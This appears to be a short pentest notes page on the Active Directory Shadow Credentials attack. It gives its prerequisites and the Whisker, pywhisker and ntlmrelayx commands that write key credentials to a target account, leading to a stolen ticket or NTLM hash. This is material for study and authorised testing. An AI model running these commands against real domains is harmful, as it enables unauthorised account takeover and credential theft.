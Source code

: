 # Shadow Credentials

Before jumping into exploiting Shadow Credentials, I highly recommend reading the [article from SpecterOps](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) on shadow credentials.&#x20;

### **Prerequisites**&#x20;

There are three prerequisites for this attack to be performed:

* The ability to write to the `msDS-KeyCredentialLink` attribute on the target.&#x20;
* [AD CS must be configured.](ad-cs.md)
* A DC on the domain must be configured to support PKINIT.&#x20;

### Exploitation

After identifying a user account or machine account where the `msDS-KeyCredentialLink` attribute can be written to, [Whisker](https://github.com/eladshamir/Whisker) can be used to essentially automate the exploitation from a Windows machine:

```bash
# Generic usage of Whisker
Whisker.exe add /target:parzival

## https://github.com/ShutdownRepo/pywhisker
# Generic usage of PyWhisker
pywhisker.py -d $domain -u $user -p $password --target $target --action "list"x
```

Following running Whisker, it will provide a Rubeus command that can be executed in order to pull the targets TGT or NTLM hash.&#x20;

### Relaying

Ntlmrelayx also supports exploiting shadow credentials and can be used as follows:

```bash
# Relaying will work against either LDAP or LDAPS

# LDAPS
ntlmrelayx -t ldaps://parz-dc1 --shadow-credentials --shadow-target 'parz-dc2'

# LDAP
ntlmrelayx -t ldap://parz-dc1 --shadow-credentials --shadow-target 'parz-dc2'
```

### References

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials" %}

{% embed url="https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab" %}

{% embed url="https://pentestlab.blog/2022/02/07/shadow-credentials/" %}
